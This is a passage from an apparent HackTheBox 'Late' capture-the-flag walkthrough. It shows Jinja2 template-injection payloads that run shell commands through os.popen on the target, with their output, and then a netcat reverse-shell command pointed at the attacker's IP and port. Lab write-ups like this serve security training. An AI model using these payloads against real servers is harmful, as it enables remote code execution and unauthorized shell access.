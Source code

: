 Output:

```
<p>uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
</p>
```

Then I started collecting some information from the environment before trying to spawn a revshell:

ls:
<p align="center">
  <img src="/images/walkthroughs/hackthebox/late/4_1_ls.png" width="90%"/>
</p>

```python
{ { cycler.__init__.__globals__.os.popen(' ls ').read() } }
```

Output:

```html
<p>main.py
misc
__pycache__
static
templates
uploads
wsgi.py
</p>
```

Netcat:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/late/4_2_nc.png" width="90%"/>
</p>

```python
{ { cycler.__init__.__globals__.os.popen(' nc 10.10.14.58 4444 -e /bin/bash ').read() } }
```

Output:

```
Error occured while processing the image: 'type object' has no attribute 'init__'
```
<p align="center">
  <img src="/images/walkthroughs/hackthebox/late/4_3_wget2.png" width="90%"/>
</p>

